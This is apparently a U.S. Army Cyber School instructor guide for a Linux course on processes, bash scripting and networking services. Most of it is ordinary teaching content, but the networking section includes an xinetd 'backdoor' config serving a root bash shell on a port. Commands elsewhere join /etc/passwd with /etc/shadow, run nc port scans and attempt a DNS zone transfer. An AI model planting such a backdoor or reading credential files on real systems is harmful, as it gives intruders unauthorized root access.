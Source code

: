 :doctype: book
:stylesheet: ../../../cctc.css
image::https://git.cybbh.space/global-objects/resources/raw/master/images/cyber-branch-insignia-official.png[Cyber,width=128,float="right"]

= Linux Facilitation Guide
U.S. Army Cyber School 2017

// Available at https://git.cybbh.space/CCTC/internal/builds/artifacts/master/file/facilitation-guides/linux/official_FGs/Linux_3_script_process_FG.pdf?job=genpdf

'''

:numbered!:
 
= Linux Section 3: Scripting and Processes

== Skills and Objectives

.*SKILL 6: Identify Linux processes*
* 6.1 Identify common processes for Linux startup
* 6.2 Identify common processes for Linux machine
* 6.3 Employ commands to enumerate processes
* 6.4 Explain the functionality of daemons
* 6.5 Discuss orphaned and defunct processes
* 6.6 Identify the purpose of apt/aptitude
* 6.7 Evalulate the validity of Linux processes

.*SKILL 7: Develop shell scripts*
* 7.1 Demonstrate basic familiarity with shell scripting
* 7.2 Explain variables and variable manipulation
* 7.3 Employ commands for string manipulation
* 7.4 Identify hashing and file hashes
* 7.5 Create a bash script to perform basic enumeration on a Linux machine

.*SKILL 8: Identify Linux networking features*
* 8.1 Describe the local name resolution process on a Linux host
* 8.2 Describe the difference between regular and raw sockets
* 8.3 Identify basic network services for Linux
* 8.4 Employ commands to gather network information
* 8.5 Enumerate active connections on a Linux machine
* 8.6 Describe the advantages and disadvantages of Samba
* 8.7 Explain the functionality of telnet
* 8.8 Perform a file transfer using telnet
* 8.9 Analyze network connections using Linux command line tools

== Practical Exercises

Each practical exercise is further detailed on Blackboard, to include scenarios, grading, and submission standards.

== Faciliation:

==== Facilitation 6-8

=== *SKILL 6: Identify Linux processes*
==== 6.1 Identify common processes for Linux startup
* Linux Startup Processes

** Start init which is the parent/grandparent of all processes.  Its process ID is 1, 
and its parent is 0

** Modern Linux kernels/distros also have kthreadd which is a kernel thread daemon 
which is second after init so it will have a PID of 2 and will also have no parent. 
kthreadd manages hardware and is directly handled by the kernel (kernel mode) 
and have high priority.  They can be identified by the name enclosed in square brackets [].

** Mount filesystems defined in /etc/fstab

** Set system time from time stored in hardware (can also use an ntp service)

** Supported filesystems in:  /proc/filesystems

* DISCUSSION: Kernel vs user space
** Kernel shares single memory space
** Represented in ps list with []
** User space programs each have virtual memory allocation
** Services defined by the runlevel will be started.

==== 6.2 Identify common processes for Linux machine
* DEMO: Show a ps, point out /sbin/init and [kthreads]
* Identify which ones are normal or common: (command ps -ef)
** Which ones are user mode or kernel mode?

----
root      2315     1  0 07:37 ?        00:00:00 /sbin/dhcpcd -q
root      2343     1  0 07:37 ?        00:00:00 /sbin/rpcbind
root      2379     1  0 07:37 ?        00:00:00 /sbin/rpc.statd --no-notify
root      2405     2  0 07:37 ?        00:00:00 [rpciod]
root      2407     2  0 07:37 ?        00:00:00 [xprtiod]
root      2435     1  0 07:37 ?        00:00:00 /usr/sbin/rpc.idmapd
root      2461     2  0 07:37 ?        00:00:00 [nfsiod]
root      2511     1  0 07:37 ?        00:00:00 /usr/sbin/cron
root      2576     1  0 07:37 ?        00:00:00 /usr/sbin/lightdm
root      2602     1  0 07:37 tty1     00:00:00 /sbin/agetty 38400 tty1 linux
----

==== 6.3 Employ commands to enumerate processes
* Covered in basic shell commands
*ps command (current shell “ps”, whole system “ps aux”, forest “ps f”)

----
ps -ef              # SysV
ps -o "%cpu comm"

ps auxf             # forest view (BSD style)
ps axfo pid,ppid,comm
----

==== 6.4 Explain the functionality of daemons
* DISCUSSION: daemon is an orphaned process waiting for an event in the background.
** stdin, stdout and stderr are pointed to /dev/null

* Starting and stopping can vary depending on init system (i.e. systemd, openrc, sysv, etc).

** Usually works on all systems:

----
cd /etc/init.d/
./servicename start
./servicename restart
./servicename stop
----

** Some non-systemd systems:
----
service sevicename start/restart/stop
----

** systemd:
----
systemctl start/restart/stop servicename
----

* Service configuration files typically stored in /etc, do “man servicename” for more info (i.e. “man sshd”)

* DEMO: exec command

----
exec 3<>/dev/tcp/www.gentoo.org/80
echo -e "GET / HTTP/1.1\r\nhost: www.gentoo.org\r\nConnection: close\r\n\r\n" >&3
cat <&3
----

* DISCUSSION: Job control (jobs, fg, bg, ^z, kill %JID, &)

* at – one shot job
** reads a series of commands and executes them at a later time

** DEMO: at command

----
at now + 5 min          #enter at command prompt
echo Something          #throwaway command
atq                     #list current at queue
at -c <#>               #retrieve at command
----

* cron – recurring jobs

** Cron format:

----
* * * * * /directory/and/command
| | | | |
| | | | +---- Day of the Week   (range: 0-7, 1 = Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)
# Sunday is 0 or 7
----

** Some crons use an extended cron which has Y after day of the week in the range of 1900-3000

** Resource: https://crontab.guru/

** Edit your own cron file (/var/spool/cron/crontabs)

----
crontab -e 			# opens user crontab in text editor
----

** System cron entries (ls -d /etc/cron*)

* Samba – suite of programs that allow interoperability with Windows Workgroups and Domains

==== 6.5 Discuss orphaned and defunct processes
* DISCUSSION: Difference between orphan and zombie
** Orphan: parent process exited, adopted by /sbin/init (so it's PPID becomes 1)
*** DEMO (see Appendix A)
** Zombie: process has exited, waiting on parent to acknowledge
*** Zombie can't be terminated with kill since it has already finished execution
*** DEMO (see Appendix B)

* Process States

----
D 	uninterruptible sleep (usually IO)
R 	running or runnable (on run queue)
S 	interruptible sleep (waiting for an event to complete)
T 	stopped, either by a job control signal or because it is being traced
W 	paging (not valid since the 2.6.xx kernel)
X 	dead (should never be seen)
Z 	defunct ("zombie") process, terminated but not reaped by its parent
----

** Additional characters may be displayed:

----
< 	high-priority (not nice to other users)
N 	low-priority (nice to other users)
L 	has pages locked into memory (for real-time and custom IO)
s 	is a session leader
l 	is multi-threaded (using CLONE_THREAD, like NPTL pthreads do)
+ 	is in the foreground process group
----

==== 6.6 Identify the purpose of apt/aptitude
* DISCUSSION: installs programs from repository

* Package management(Debian flavors)  Aptitude has a few other bells/whistles such as a text gui

** Search and install packages

----
apt-cache search text
apt-get install packagename
----

==== 6.7 Evalulate the validity of Linux processes
* DISCUSSION: process information under /proc

* Examine the validity of services

** Recognize unusual names – difficult

** Services/programs run from unusual directories

----
pwdx            # gets current working directory of process
ls -l /proc/PID/cwd

ps auxwwwe
ps -ef                  # get PID with:

ls -l /proc/PID/exe     # find the path and binary from where it was invoked
----

** Look at connection info and listening ports

----
netstat -anp  		# List all, don’t resolve port numbers, show program

netstat -lnp		# Listening ports, don’t resolve port nums, show prog

netstat -antp		# List all TCP, don’t resolve port nums, show prog

netstat -lntp		# List listen TCP, don’t resolve port nums, show prog
----

** Find user/process making connection or listening on port

----
lsof -RPni :XX    # replace XX with port number

lsof -Pnp PID     # List verbose process associated with the process
----

=== *SKILL 7: Develop shell scripts*
==== 7.1 Demonstrate basic familiarity with shell scripting
* DEMO: Basic shell scripting functions:
* Positional arguments
----
#!/bin/bash
printf "Hello, %s\n" "$1"  #call program with a name, it repeats as $1
----

* Command substitution
----
#!/bin/bash
today=`date`     #old style with backticks
echo $today

#!/bin/bash
today=$(date)    #new style
echo $today
----

* Exit status
----
printf "%v\n"
echo $?         #contains 0 if successful, else failed
printf "##%d##\n", 123
echo $?
----

* if statement
----
#!/bin/bash
if (( 2 == 1 ))
then
    echo "Yep"
else
    echo "Nope"
fi
----

* All on one line, note the semicolon placement

----
if (( 2 != 1 )); then echo "Yep"; else echo "Nope"; fi
----

----
if [ -e file.name ]
then
	echo "file.name exists"
else
	echo "file.name doesn’t exist"
fi
----

** Reference File Test Operators:  http://tldp.org/LDP/abs/html/fto.html

* for
----
#!/bin/bash
for var in {1..3}
do
    printf "%d\n" "$var"
done
----

** May not perform like you think. Note junk between Z and a.

----
for var in {A..z}
do
	echo -n $var
done
echo
----

* What is the issue with this?  What about filenames with spaces?
----
echo a > "/tmp/name with spaces"
for var in $(ls /tmp); do echo $var; done
for var in /tmp/*; do echo $var; done
----

* while
----
#!/bin/bash
n=1
while [ $n -le 3 ]
do
    echo "$n"
    n=$(( $n + 1 ))
done
----

* Demonstration of using regex and BASH_REMATCH in Bash > V3
** Call the below script as ./retest.sh aaabbbccc (a{1,3}) to show that the
special variable BASH_REMATCH will contain the captured match

----
#!/bin/bash
string=$1
regex=$2
[[ $string =~ $regex ]]
echo "${BASH_REMATCH[1]}"
----

==== 7.2 Explain variables and variable manipulation
.* DEMO: assigning variables with export
----
set                     #show local scope variables
env                     #show global variables, note the difference and absence of BASH variables
avar="first"            #set avar to "first"
set | grep avar         #show that avar is in there
env | grep avar         #show that avar is not in env
export avar="second"    #set global avar
echo $avar              #show that it now contains second
env | grep avar         #show that it is now in global variables space as "second"
set | grep avar         #show that the original local scope avar has been overwritten and is now also second
avar="third"            #overwrite avar with local variable assignment
env | grep avar         #show that avar is now third in global space
----

* Using braces around variable names, sometimes they are required.

----
var=ying
echo $var	
echo $varyang
echo ${var}
echo ${var}yang
----

.* DEMO: Linux Internal Variables<<1>>
----
echo $BASH              #Path to the BASH binary
echo $BASHPID           #PID of current BASH shell
echo $UID               #User ID, 0 for Root. ID comes from the passwd file
echo $EUID              #Effective User ID.  ID that shell is currently running as, may be changed due to su or sudo. 0 indicates root privileges
echo $PWD               #Present working directory
----
* More detailed list available at http://tldp.org/LDP/abs/html/internalvariables.html


==== 7.3 Employ commands for string manipulation
.* DEMO: String manipulation commands
----
# string tests
[ "abc" == "abc" ]
echo $?
[ "abc" == "def" ]
echo $?
[ "abc" != "abc" ]
echo $?
export a=abc
[ $a == "abc" ]
echo $?
echo -n $a | wc -c      #length of string $a with no newline
----

* Linux string-related commands

----
column -ts ':' /etc/passwd      # human readable
expand /etc/fstab               # change tabs to spaces
paste /etc/passwd /etc/shadow   # join regardless
join -t ':' -j 1 /etc/passwd /etc/shadow    # join on common
sort /etc/passwd or cat /etc/passwd | sort			
uniq /etc/passwd or cat /etc/passwd | uniq
head -n 5 /etc/passwd           # Display first 5 lines of file
tail -n 10 /etc/passwd          # Display last ten lines of file
tail -f /var/log/messages       # displays changes made to file
tac /etc/passwd                 # reverse cat
echo "desserts" | rev           # reverse string
----

** String manipulation

----
var=moscow
echo ${var:2}           # Start at char 2, (0 is first)
echo ${var:1:2}         # start char 0, number of chars 1
echo ${var: -3:1}       # Note extra space. It is required.
----

*** Reference: http://tldp.org/LDP/abs/html/string-manipulation.html

** Translate (tr)

----
cat /etc/passwd | tr ":" " "	# change all colons to spaces 
cat /etc/passwd | tr \: \ 		# there is a space after the last slash
cat /etc/passwd | tr -d \\n 	# delete newlines
cat /etc/passwd | tr 'o' 'O' 	# replace characters
----

*** Reference: http://www.thegeekstuff.com/2012/12/linux-tr-command/

** Extract columns in original order (cut)
*** Easy to use, but not super powerful

----
cat /etc/passwd | cut -d : -f 3         # Retrieve third column in /etc/passwd
cat /etc/passwd | cut -d : -f 3,4,7     # Retrieve third, fourth and seventh columns
cat /etc/passwd | cut -d : -f 7,4,3     # How will these display the output?
----

** String Editor (sed)

----
cat /etc/passwd | sed 's/paris/london/g'    # g for Global -- all occurences

cat /etc/fstab | sed 's/#.*//'              # Delete comments
	
cat /etc/fstab | sed '/^$/d'                # Delete empty lines
grep -v ^$                                  # Also works
----

*** Reference: http://www.thegeekstuff.com/2009/09/unix-sed-tutorial-replace-text-inside-a-file-using-substitute-command/

** String Manipulation Scripting (awk)
*** Very powerful, simple for easy tasks, but can get complicated
*** Is a complete scripting language

----
cat /etc/passwd | awk -F":" '{ print $3 "-" $4 "-" $7 }'
cat /etc/passwd | awk -F":" '{ print $7 "-" $4 "-" $3 }'	

awk -F":" '{ print "username: " $1 "\t\tuid:" $3 }' /etc/passwd
----

* Internal Field Separator (IFS)

** It is used by the shell to determine how to do word splitting, i. e. how to recognize word boundaries.

** DEMO: Changing the IFS

----
str="one:1,two:2,three:3"
IFS=" "; for w in $str; do echo -n "**$w** "; done      # Default, just one value for $w
IFS=","; for w in $str; do echo -n "**$w** "; done      # Correctly separates into 3 groups
IFS=":"; for w in $str; do echo -n "**$w** "; done      # Strange separation into 4 groups
----

** DEMO:  Saves and restores the IFS

----
#!/bin/bash
SAVEIFS=$IFS
IFS=$(echo -en "\n\b")
for f in *
do
  echo "$f"
done
IFS=$SAVEIFS
----

==== 7.4 Identify hashing and file hashes
* DISCUSSION: Popular hashes
** md5 - 128 bit
** sha1 - 160 bit
** sha256 - 256 bit
* DISCUSSION: Explain a hash collision
* DEMO: Create hashes from files

----
echo "Here is some stuff" > file1
sha1sum file1
md5sum file1
----

* Small changes have a big impact on hash result

----
echo "Happiness is a Day of Sunshine" > happy
md5sum happy
echo "Happiness is a day of Sunshine" > happy
md5sum happy
----

* Reference: http://www.mscs.dal.ca/~selinger/md5collision/

==== 7.5 Create a bash script to perform basic enumeration on a Linux machine
* Previously covered in shell basics

* Sample scripts

----
#!/bin/bash
# Read from file supplied as an argument on the command line

linecount=0
while read -r var
do
    linecount=$(expr $linecount + 1)
    echo "$linecount value is $var"
done < "$1"
----

----
#!/bin/bash
# Read from /etc/passwd and display only desired fields

IFS=:
linecount=0
while read -r f1 f2 f3 f4 f5 f6 f7
do
	((linecount++))
	# Print the desired fields in the desired way
	echo Line $linecount: "Username: $f1, Shell: $f7: Home Dir: $f6"
done < /etc/passwd
----

----
#!/bin/bash
# Read from file specified on command line ($1) word by word

linecount=0
for var in $(cat $1)
do
    linecount=$[$linecount + 1]
    echo "$linecount value is $var"
done
----

=== *SKILL 8: Identify Linux networking features*
==== 8.1 Describe the local name resolution process on a Linux host
* DISCUSS: Order of precedence for DNS resolution
* DEMO: Show the following files and explain what they do:
----
/etc/hosts          # List of hosts and associated IP's
/etc/resolv.conf    # Name Server Settings
/etc/nsswitch.conf  # Determines lookup order

----

==== 8.2 Describe the difference between regular and raw sockets
* DISCUSS: Characteristics and permission requirements of a RAW SOCKET
* DISCUSS: When is a raw socket necessary (ie. nmap -sS)

A Unix domain socket or IPC socket (inter-process communication socket) is a data communications endpoint for exchanging data between processes executing on the same host operating system.

A network socket is an internal endpoint for sending or receiving data at a single node in a computer network. Concretely, it is an representation of this endpoint in the networking software (protocol stack), such as an entry in a table (listing communication protocol, destination, status, etc.), and is a form of system resource.

## upload and insert image for OSI model layers
image::https://git.cybbh.space/global-objects/resources/raw/master/images/cyber-branch-insignia-official.png[OSI Model Layers,width=128,float="left"]

Typical network socket format (IP:Port): 1.2.3.4:25

Non-raw socket – Protocol stack processes its respective layer, performing address, checksum (if applicable) validation, removes its respective header and trailer (if applicable) and passes up the contents to its immediate upper layer

RAW socket – no layer checking done, it is up to the application using the raw socket to interpret the data. RAW sockets are often used as packet capture/sniffer programs as it captures the “raw” data from the network interface card and passes it directly to the application

Bash with sockets ( http://hacktux.com/bash/socket )
----
# exec 3<>/dev/tcp/www.example.com/80 ; echo -e "GET / HTTP/1.1\r\nHost: www.example.com\r\nConnection: close\r\n\r\n" >&3 ; cat <&3
HTTP/1.1 200 OK
Cache-Control: max-age=604800
Content-Type: text/html
Date: Thu, 09 Mar 2017 21:53:14 GMT
Etag: "359670651+gzip+ident"
Expires: Thu, 16 Mar 2017 21:53:14 GMT
Last-Modified: Fri, 09 Aug 2013 23:54:35 GMT
Server: ECS (fty/2FA4)
Vary: Accept-Encoding
X-Cache: HIT
Content-Length: 1270
Connection: close

<!doctype html>
<html>
<head>
    <title>Example Domain</title>
----

==== 8.3 Identify basic network services for Linux
* DEMO: show netstat, lsof, host, dig, nslookup
----
netstat -l
sudo lsof -i
host www.google.com         # Returns information about that host on Google's domain
dig @8.8.8.8 www.google.com # Domain Internet Groper -Returns the A record using nameserver 8.8.8.8 for the Google domain
dig axfr @nsztm1.digi.ninja zonetransfer.me #Performs a complete zonetransfer of zonetransfer.me

nslookup www.google.com 8.8.8.8 # Non-interactive nslookup mode
nslookup    #interactive mode 
> server 8.8.8.8
> www.google.com
----

Network Services – not all inclusive, just a list of some

* ntpd – Network Time Protocol Daemon
* httpd (apache) – Hyper Text Transfer Protocol Daemon
* nginx – High-performance HTTP server, reverse proxy, and IMAP/POP3 proxy server
* sshd – Secure SHell Daemon
* postfix, sendmail – Mail Server Daemon
* snmpd – Simple Network Management Protocol Daemon
* iptables, nftables, ufw – Network Filtering Protocol Service
* nfsd – Network File System Server Daemon
* dnsmasq, nscd – Name Service Cache Daemon
* named (bind)– Dynamic Naming Service Server Daemon
* smbd (samba) –  Server Message Block Server Daemon

Network Super Servers (inetd and xinetd)

* Listen for network connection on behalf of another program

* Hands off control of that connection to intended server

* Help reduce memory load and improve security

* There are two different super servers:
**	inetd use TCP Wrappers to handle security
**	xinetd has builtin security features

*** Servers that normally use super server: telnet, FTP, TFTP, rlogin, finger, POP, IMAP

xinetd security configuration enhancements
----
Listen to only on network interface for the service:
	bind = <IP Address>
Accept connections only from IP addresses:
	only_from = <IP Addresses|Network>
Deny connections only from IP addresses:
	no_access = <IP Addresses|Network>
Set times during which users may access the server:
	access_times = hour:min-hour:min
If access is prohibited, send optional banner to  client:
	banner  = /usr/local/etc/deny_banner
----

# Example xinetd config file
----
service ftp
{
	socket_type	= stream
	protocol	= tcp
	wait		= no
	user		= ftp
	server		= /usr/sbin/in.ftpd
	server_args = -i
	disable		= no
}

Disable a service: change disable to yes
To restart the xinetd service:
	/etc/init.d/xinetd {restart|reload}
----

To run:
	Conserves resources
	Runs daemons only when needed
	Provides an additional layer of security and can turn virtually any script or program into a service

Not to run:
	Another vulnerable service
	Can secure services using other methods
	Can be used to create a backdoor listener

# xinitd backdoor
----
service print-srv
{
    disable       	= no
    protocol   		= tcp
    socket_type    	= stream
    wait           	= no
    user           	= root
    server   		= /bin/bash
    server_args   	= -i
}

xinetd reads this file and determines port from /etc/services
----

==== 8.4 Employ commands to gather network information
* DISCUSSION: Relevant network data for network enumeration
* DEMO: Show network related commands
----
ip
netstat
ifconfig
arp
route
----

==== 8.5 Enumerate active connections on a Linux machine
* DISCUSSION: How to use telnet, nc, nmap to enumerate ports on a remote machine

Enumerating systems/ports

Netstat (http://www.binarytides.com/linux-netstat-command-examples/)

Nmap (https://nmap.org/)

nmap -sV -p T:80 --script=banner www.gentoo.org

Starting Nmap 7.40 ( https://nmap.org ) at 2017-02-05 13:49 EST
Nmap scan report for www.gentoo.org (89.16.167.134)
Host is up (0.093s latency).
Other addresses for www.gentoo.org (not scanned): 2001:41c8:0:936::139 2001:41c8:0:936::136
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-server-header: nginx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.50 seconds

# Scanning with netcat
## scan 1 to 1023 ports on system vip-1.vsnl.nixcraft.in ##
nc -zv vip-1.vsnl.nixcraft.in 1-1023

Analyzer/enumerating active connections (https://help.joyent.com/hc/en-us/articles/226687427-Watching-active-IP-connections-Linux)

watch -d -n1 lsof -i

Socket Statistics
http://www.binarytides.com/linux-ss-command/

ss -nap
ss -lntp


==== 8.6 Describe the advantages and disadvantages of Samba
* DISCUSSION: What is Samba
** Allows Windows file and printer sharing on Linux
* Advantages: free, uses CIFS
* Disadvantages: more overhead to configure
* A little challenging to get to work correctly for certain situations

Samba config file:
----
/etc/samba/smb.conf

Shares the /home/stuff directory as share.  Windows systems will see it as “share”, guest can access it, and nobody can write to it.

[share]
   comment = Shared Directory
   path = /home/stuff
   guest ok = yes
   writable = no
----

==== 8.7 Explain the functionality of telnet
* DISCUSSION: telnet features: basic authentication, plaintext

Program/protocol that allows remote console connectivity;  Clear text protocol, uses port 23 by default.

Can’t transfer a file natively, so why would you want to do this?  Sometimes the only access you have to a remote system is a standard terminal.

If you can, use ssh instead.

Netcat can transfer a file too!


==== 8.8 Perform a file transfer using telnet
* DISCUSSION: transfer a file using telnet

Transfer a file with telnet demo
----
uuencode, copy and paste into an echo command piped to an executable, uudecode
----
* DISCUSSION: Other methods of file transfer, nc, scp, ftp, tftp

==== 8.9 Analyze network connections using Linux command line tools
* Repeat of 8.4
{empty} +

==== Appendix A: Orphan Process Demo
* orphan.c (please compile in advance)

----
// gcc -std=c99 orphan.c -o ./orphan
// ./orphan

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
 
int main(int argc, char **argv)
{
    // Create a child process      
    int pid = fork();
 
    if (pid > 0) 
    {
        sleep(5);
        printf("in parent process\n");
    }
 
    // Note that pid is 0 in child process
    // and negative if fork() fails
    else if (pid == 0)
    {
        sleep(60);
        printf("in child process\n");
        printf("My parent's ID: %d\n", getppid());
    }
 
    return 0;
}
----

* orphan.sh (run in class)

----
#!/bin/bash

echo "Demonstrating orphan process..."
echo =================================
./orphan &
ps -elf | head -n 1
for i in $(seq 1 13)
do
  ps -elf | grep orphan | grep -v grep | grep -v bash
  sleep 5
done
----

==== Appendix B: Zombie Process Demo

* zombie.c (please compile in advance)

----
// Child becomes Zombie as parent is sleeping
// when child process exits.

// gcc -std=c99 zombie.c -o ./zombie
// ./zombie

#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    // Fork returns process id
    // in parent process
    pid_t child_pid = fork();
 
    // Parent process
    if (child_pid > 0)
    {
        sleep(10);
    }
    else // Child process
    {
        sleep(2);
        exit(0);
    }
    
    return 0;
}
----

* zombie.sh (run in class)

----
#!/bin/bash

echo "Demonstrating zombie process..."
echo =================================
./zombie &
ps -elf | head -n 1
for i in $(seq 1 $((20 / 5)) )
do
  ps -elf | grep zombie | grep -v grep | grep -v bash
  sleep 5
done
----

ifdef::backend-docbook[]
[index]
Example Index
////////////////////////////////////////////////////////////////
The index is normally left completely empty, it's contents being
generated automatically by the DocBook toolchain.
////////////////////////////////////////////////////////////////
endif::backend-docbook[]

[bibliography]
==== References
- [[[1]]] 9.1. Internal Variables. (n.d.). Retrieved August 03, 2017, from http://tldp.org/LDP/abs/html/internalvariables.html